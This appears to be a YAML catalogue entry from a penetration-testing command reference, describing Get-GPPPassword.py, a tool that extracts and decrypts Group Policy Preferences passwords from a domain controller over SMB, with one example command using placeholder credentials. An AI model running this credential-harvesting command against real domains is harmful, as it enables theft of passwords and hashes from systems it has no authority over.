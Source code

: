 ```yaml
---
description: |
  Python script to automatically extract and decrypt Group Policy Preferences (GPP) passwords using streams for carving files instead of mounting shares

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Password: password123

command: |
  python3 Get-GPPPassword.py 'TEST.local/john:password123@DC01.TEST.local' -dc-ip 10.10.10.1
items:
  - Password
  - Username
  - Hash
services:
  - SMB
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - 
---
```

